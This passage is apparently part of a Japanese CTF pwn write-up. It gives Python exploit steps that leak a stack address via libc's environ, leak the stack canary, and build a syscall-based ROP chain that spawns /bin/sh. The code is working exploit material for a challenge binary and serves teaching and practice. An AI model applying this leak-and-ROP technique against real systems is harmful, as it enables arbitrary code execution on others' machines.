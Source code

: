 ### stackのleak

libcがleakできているのでAPIトークンのポインタをenvironにしてあげるとstackのleakができます。

```py
    environ = libc_base + 0x221200

    update(b"A" * 0x10 + p64(environ) + p8(8) + b"\n")
    buf = run()
    buf = buf[buf.find(b"with token ") + 12 :][:8]
    stack_base = s2u64(buf)
    success(f"{stack_base=:x}")
```

### canaryのleak

leakしたstackからのオフセットを計算するとcanaryもleakできます。

```py
    canary_addr = stack_base - 0x190
    info(f"{canary_addr=:x}")
    update(b"AAAAAAAA" + p64(wriable_area) + p64(canary_addr) + p8(8) + b"\n")
    buf = run()
    buf = buf[buf.find(b"with token ") + 12 :][:8]
    canary = s2u64(buf)
    success(f"{canary=:x}")
```

### ROP

最後にROPを組めば任意コード実行に持ち込めます。
今回はstackを飛ばす先を考えるのが面倒だったので`system`ではなく`syscall`を使ったROPにしています。

```py
    bin_sh = libc_base + 0x1D8698
    pop_rdi = libc_base + 0x172B79
    pop_rsi = libc_base + 0x173CF0
    pop_rax = libc_base + 0xD9AE2
    pop_rdx_rbx = libc_base + 0x174F96
    syscall = libc_base + 0x128ACA
    rbp = 0
    rop = (
        p64(pop_rdi)
        + p64(bin_sh)
        + p64(pop_rsi)
        + p64(0)
        + p64(pop_rdx_rbx)
        + p64(0)
        + p64(0)
        + p64(pop_rax)
        + p64(59)
        + p64(syscall)
    )
    update(b"\x00" * 0x38 + p64(canary) + p64(0) * 2 + p64(rbp) + rop + b"\n")

    fin()
```


[^1]: このブログは全ページ全pwner読むべきだと思っています
[^2]: libcからTLSへのオフセットが一定だと思っていて、Master Canaryをleakしようとして1時間とかしました(ASLRをオフにしていただけ)